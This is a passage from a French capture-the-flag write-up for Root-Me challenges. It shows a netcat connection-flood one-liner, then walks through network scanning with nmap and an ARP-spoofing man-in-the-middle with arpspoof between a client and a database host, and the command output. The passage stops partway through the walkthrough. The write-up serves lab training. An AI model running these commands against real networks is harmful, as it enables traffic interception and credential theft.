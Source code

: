 ```$ for i in {1..20}; do echo | nc challenge01.root-me.org 54017 & done ; curl -i http://challenge01.root-me.org:54017/
On pourrais simplement drop les paquets qui dépassent la limite des 20.
```


III. ARP Spoofing Ecoute active


🌞 Write-up de l'épreuve
Le but de ce chall est de récupérer des informations confidentielles qui transitent sur un réseau, et nous avons accès à ce réseau à travers une machine que nous contrôlons.

On nous dit que le flag est la concaténation de la réponse à une requête sur le réseau, ainsi que le mot de passe de la base de données. On va donc mettre en place un man-in-the-middle pour trouver la première partie, puis on va brute force le mdp de la base de donnée pour la seconde partie.

# apt install iproute2 -y

``` # ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
5: eth0@if6: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:12:00:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.18.0.2/16 brd 172.18.255.255 scope global eth0
       valid_lft forever preferred_lft forever
       ```

Nous allons commencer par scanner le réseau local afin de voir les machines qui y sont présentes.

# apt install nmap -y

# nmap -sn 172.18.0.0/16
Starting Nmap 7.80 ( https://nmap.org ) at 2024-01-04 15:18 UTC
Nmap scan report for 172.18.0.1
Host is up (0.000032s latency).
MAC Address: 02:42:D5:43:77:9E (Unknown)
Nmap scan report for client.arp-spoofing-dist-2_default (172.18.0.3)
Host is up (0.000031s latency).
MAC Address: 02:42:AC:12:00:03 (Unknown)
Nmap scan report for db.arp-spoofing-dist-2_default (172.18.0.4)
Host is up (0.000036s latency).
MAC Address: 02:42:AC:12:00:04 (Unknown)
Nmap scan report for fac50de5d760 (172.18.0.2)
Host is up.

On voit deux machines distinctes, un client en 172.18.0.3, et une base de données en 172.18.0.4.

Nous allons ensuite mettre en place un man-in-the-middle entre ces deux machines, afin de pouvoir consulter le trafic qui passe. Nous allons utiliser la technique du ARP poisoning afin que le client pense que nous sommes la DB, et que la DB pense que nous sommes le client.

# cat /proc/sys/net/ipv4/ip_forward
1

On regarde si le forwarding de paquet est activé, sans cela les paquets ne pourront pas transiter à travers notre machine et ainsi atteindre leur cible originelle.

Dans un deuxième temps, nous allons utiliser arpspoof pour envoyer continuellement des paquets ARP qui vont falsifier la table ARP du client, et de la DB.

# arpspoof -t 172.18.0.3 -r 172.18.0.4
2:42:ac:12:0:2 2:42:ac:12:0:3 0806 42: arp reply 172.18.0.4 is-at 2:42:ac:12:0:2
2:42:ac:12:0:2 2:42:ac:12:0:4 0806 42: arp reply 172.18.0.3 is-at 2:42:ac:12:0:2

```
